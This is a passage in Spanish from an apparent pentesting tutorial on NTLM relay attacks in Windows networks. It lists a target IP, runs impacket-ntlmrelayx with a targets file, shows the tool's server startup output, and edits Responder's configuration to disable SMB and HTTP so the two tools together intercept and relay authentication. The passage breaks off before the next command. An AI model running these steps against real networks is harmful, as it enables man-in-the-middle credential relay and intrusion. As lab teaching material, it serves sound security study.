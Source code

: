 ```
192.168.5.208
```

Y ahora ejecutaremos el siguiente comando:

```shell
impacket-ntlmrelayx -smb2support -tf targets.txt 
```

Con el `-tf` especificamos el `Target File` que es el fichero donde estan todas las `IP's` que nos interesan.

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay enabled

[*] Servers started, waiting for connections
```

Esto lo que esta haciendo es levantarnos dichos `protocolos` y tambien `servidores` para estar en mitada de la comunicacion con ellos, haciendonos pasar nosotros por la maquina que se encuentra en mitad de la comunicacion, para realizar lo que comente anteriormente.

Como tenemos estos servidores levantados y tambien necesitamos utilizar `responder` vamos a editar el archivo de `responder` para desactivar el que nos levante los servidores que ya estan levantados en la otra herramienta, para ponernos asi en mitad de la comunicacion gracia a la herramienta.

```shell
sudo nano /etc/responder/Responder.conf

#Dentro del nano
SMB      = Off
HTTP     = Off
```

Con estos cambios lo guardamos y ejecutamos lo siguiente:
